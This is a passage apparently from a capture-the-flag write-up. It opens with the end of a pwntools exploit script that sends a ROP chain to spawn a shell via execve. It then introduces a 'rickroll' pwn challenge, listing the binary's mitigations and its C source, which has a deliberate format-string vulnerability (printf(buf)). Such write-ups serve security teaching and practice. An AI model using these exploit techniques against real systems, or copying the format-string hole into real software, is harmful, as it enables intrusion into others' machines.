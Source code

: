 ```

    # ~ restart ~
    ropchain = p64(POP_RDI)
    ropchain += p64(BINSH)
    ropchain += p64(POP_RSI_POP_R15)
    ropchain += p64(0) + p64(0)
    ropchain += p64(POP_RDX)
    ropchain += p64(0)
    ropchain += p64(EXECVE_SYSCALL)

    print(p.readuntil(b': ').decode())
    p.sendline(ropchain)

    print(p.readuntil(b': ').decode())
    p.sendline(str(72).encode())

    p.interactive()
```

## rickroll (pwn)

Security mitigations:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Source:
```
#include <stdio.h>

int main_called = 0;

int main(void) {
    if (main_called) {
        puts("nice try");
        return 1;
    }
    main_called = 1;
    setbuf(stdout, NULL);
    printf("Lyrics: ");
    char buf[256];
    fgets(buf, 256, stdin);
    printf("Never gonna give you up, never gonna let you down\nNever gonna run around and ");
    printf(buf);
    printf("Never gonna make you cry, never gonna say goodbye\nNever gonna tell a lie and hurt you\n");
    return 0;
}
```
